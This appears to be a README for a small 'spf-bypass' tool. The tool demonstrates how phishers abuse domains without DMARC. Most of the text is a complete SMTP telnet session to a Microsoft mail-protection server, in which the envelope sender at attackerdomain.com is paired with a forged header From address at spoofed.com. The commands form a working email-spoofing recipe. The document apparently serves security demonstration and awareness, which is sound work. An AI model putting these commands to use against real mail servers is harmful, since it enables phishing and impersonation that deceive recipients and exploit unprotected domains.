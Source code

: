 # spf-bypass

This project automates and demonstrates SPF-bypass techniques utilised by phishers to abuse domains that haven't been secured by DMARC.

The executable itself simply provides an interactive console for implementing the below telnet commands that can be executed on any Windows or Linux machine.

    telnet uq-net-au.mail.protection.outlook.com 25

    helo attackerdomain.com

    mail from: sebastian.salla@attackerdomain.com

    rcpt to: sebastian.salla@target.com.au

    data

    from: "Salla, Sebastian" <Sebastian_Salla@spoofed.com>

    to: sebastian.salla@target.com.au

    subject: Presentation - Email Demo

    This is a test

    .

